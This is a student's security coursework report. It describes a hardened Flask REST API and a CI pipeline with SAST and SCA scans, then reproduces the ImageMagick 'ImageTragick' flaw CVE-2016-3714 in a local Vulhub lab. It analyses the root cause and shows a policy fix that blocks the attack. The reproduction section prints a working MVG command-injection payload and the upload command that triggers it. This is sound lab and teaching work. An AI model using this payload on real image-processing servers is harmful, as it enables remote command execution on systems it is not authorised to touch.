

# Work 1 — Secure REST API Development with CI/CD and Real CVE Vulnerability Analysis

## Title page

| Field | Value |
|---|---|
| Work | Work 1 — Secure REST API Development with CI/CD and Real CVE Vulnerability Analysis |
| Surname and Name | Wei Lixuan |
| HDU number | 23320107 |
| Repository | <https://github.com/EggplantPig/WeiLixuan23320107-IS-Work-1> |
| Last successful pipeline | <https://github.com/EggplantPig/WeiLixuan23320107-IS-Work-1/actions/runs/40357227529> |

## 1. Purpose

The purpose of this work is to build a secure REST API, integrate SAST and SCA checks into a CI/CD pipeline, reproduce a real CVE in a controlled environment, analyse its root cause, apply a fix, and prove that the attack no longer works without breaking normal functionality.

## 2. Secure REST API

The API is implemented with Python 3.11 and Flask 3.1.3, using SQLite for storage. The full source code and setup instructions are in the repository and its `README.md`.

### 2.1 Endpoints

| Method | Path | Authentication | Description |
|---|---|---|---|
| `POST` | `/auth/login` | none | Authenticates `login` / `password` and returns a JWT |
| `GET` | `/api/data` | Bearer JWT | Returns the list of posts |
| `POST` | `/api/data` | Bearer JWT | Creates a post (third endpoint) |

### 2.2 Security measures

- **SQL injection**: every database operation uses parameterized SQL (`?` placeholders); no SQL string is built by concatenation. Tests include a login SQL-injection payload and a stored SQL-injection string that is treated as plain text.
- **XSS**: user-controlled values are escaped on output with Flask's built-in `markupsafe.escape`; the stored payload `<script>alert('xss')</script>` is returned as `&lt;script&gt;...` in both the create response and the list response.
- **Broken authentication**: a JWT (HS256) with an expiration time is issued on login; a `@token_required` decorator validates the `Authorization: Bearer` header on protected endpoints. Passwords are hashed with **bcrypt** and are never stored in plaintext.
- **Secrets**: `JWT_SECRET` and `SECRET_KEY` are read from environment variables only; no real secret is committed.
- **Tests**: 14 pytest cases cover authentication, token validation, authorization failures, validation, XSS escaping and SQL-injection behaviour.

### 2.3 API test evidence

The live API test session confirms the authentication flow and protected endpoints:

- `POST /auth/login` returns 200 with a signed JWT.
- `GET /api/data` without a token returns 401.
- `GET /api/data` with the token returns 200.
- `POST /api/data` with the token returns 201.


## 3. CI/CD pipeline

Workflow file: `.github/workflows/ci.yml`. It runs on every push to `main` and on pull requests:

1. `pytest` unit tests.
2. **SAST** with `bandit -r app`, producing `reports/bandit.json` and `reports/bandit.txt`.
3. **SCA** with `safety check -r requirements.txt`, producing `reports/safety.txt`.
4. **SCA** with the Snyk CLI (`snyk test --file=requirements.txt --package-manager=pip`), producing JSON/HTML reports as a separate artifact when the `SNYK_TOKEN` secret is configured; otherwise the job skips the scan with an explicit notice.
5. A readable scan summary published to the Actions job summary.
6. Upload of the `reports/` directory as build artifacts.

The latest pipeline run passed: <https://github.com/EggplantPig/WeiLixuan23320107-IS-Work-1/actions/runs/40357227529>





## 4. Real CVE: CVE-2016-3714 (ImageMagick "ImageTragick")

### 4.1 CVE description

CVE-2016-3714 is a command-injection vulnerability in ImageMagick before 6.9.3-10 (and 7.x before 7.0.1-1). Several coders, including MVG, MSL and HTTPS, pass attacker-controlled values to external delegate programs without escaping shell metacharacters, allowing remote command execution through a crafted image.

The vulnerable environment used for this work is the Vulhub example `imagemagick/CVE-2016-3714`, which runs ImageMagick 6.9.2-10 behind a PHP upload page on port 8080.

### 4.2 Reproduction steps

1. Start the vulnerable environment:

```bash
cd /home/EggplantPig/vulhub/imagemagick/CVE-2016-3714
docker compose up -d
```

2. Create the crafted MVG payload:

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/oops.jpg"|touch /tmp/success")'
pop graphic-context
```

3. Upload the payload:

```bash
curl -sS -X POST http://127.0.0.1:8080/ \
  -F "file_upload=@exploit/1.gif;filename=1.gif;type=image/gif"
```

4. Verify command execution inside the container:

```bash
docker compose exec -T web ls -l /tmp/success
```

Result: the HTTP response is `200` (`Image size is: 640 x 480`) and `/tmp/success` is created inside the container with owner `root`, proving that the injected command was executed.


### 4.3 Root cause analysis

The application uploads an image and calls the ImageMagick `identify` command on it. ImageMagick selects a coder based on the file content. For the MVG format, the `fill 'url(...)'` primitive is passed to an external delegate. In the vulnerable version, the generated delegate command is:

```text
"curl" -s -k -L -o "<output>" "https:<URL>"
```

The URL is inserted into this command without escaping shell metacharacters. The payload uses a double quote to close the quoted URL and a pipe to append `touch /tmp/success`. The final quote from the delegate template is consumed by the additional quote at the end of the payload, producing a syntactically valid shell command. This is an input-validation and command-injection weakness (CWE-20) in the delegate command construction, not a flaw in the PHP upload page itself.

### 4.4 Fix

The vulnerable ImageMagick version is pinned inside the Vulhub image, so the fix applied in this work is the hardening policy recommended by the ImageTragick advisory. The policy disables the dangerous coders (`EPHEMERAL`, `URL`, `HTTPS`, `HTTP`, `FTP`, `MVG`, `MSL`, `TEXT`, `SHOW`, `WIN`, `PLT`) and is mounted read-only over the image's policy file:

```yaml
services:
  web:
    image: vulhub/imagemagick:6.9.2-10-php
    command: php -t /var/www/html -S 0.0.0.0:8080
    volumes:
      - ./index.php:/var/www/html/index.php:ro
      - ./policy.xml:/usr/etc/ImageMagick-6/policy.xml:ro
    ports:
      - "8080:8080"
```

Fix files: [`fixed/docker-compose.yml`](../cve/CVE-2016-3714/fixed/docker-compose.yml) and [`fixed/policy.xml`](../cve/CVE-2016-3714/fixed/policy.xml).

An alternative fix is upgrading ImageMagick to 6.9.3-10 or later (or 7.0.1-1 or later), where the delegate command construction escapes shell metacharacters.

### 4.5 Verification after the fix

The same payload is rejected before it reaches the delegate:

```text
HTTP=200
Image size is:

$ docker compose exec -T web ls -l /tmp/success
ls: cannot access '/tmp/success': No such file or directory

$ docker compose logs --tail=1
web-1 | identify: not authorized '/tmp/php...' @ error/constitute.c/ReadImage/412.
```

The policy is loaded and active for the MVG coder.


### 4.6 Regression test

A legitimate PNG file is still processed by the fixed environment:

```text
HTTP=200
Image size is: 1 x 1
```

No exploit marker is created. This shows that the fix blocks the malicious coder path without breaking normal image handling.


## 5. Conclusion

The API implements the three required methods with SQL-injection, XSS and broken-authentication protections, and its CI pipeline runs unit tests plus SAST (`bandit`) and SCA (`safety`) on every push. The CVE-2016-3714 reproduction demonstrates a real remote command execution in ImageMagick, explains why the delegate command construction is vulnerable, and shows that disabling the dangerous coders blocks the attack while normal image uploads continue to work.

## 6. References

- OWASP Top 10: <https://owasp.org/www-project-top-ten/>
- OWASP Cheat Sheet Series: <https://cheatsheetseries.owasp.org/>
- JWT introduction: <https://jwt.io/introduction>
- GitHub Actions: <https://docs.github.com/en/actions>
- Vulhub: <https://github.com/vulhub/vulhub>
- NVD CVE-2016-3714: <https://nvd.nist.gov/vuln/detail/CVE-2016-3714>
- ImageTragick: <https://imagetragick.com/>
- Exploit-DB 39767: <https://www.exploit-db.com/exploits/39767/>
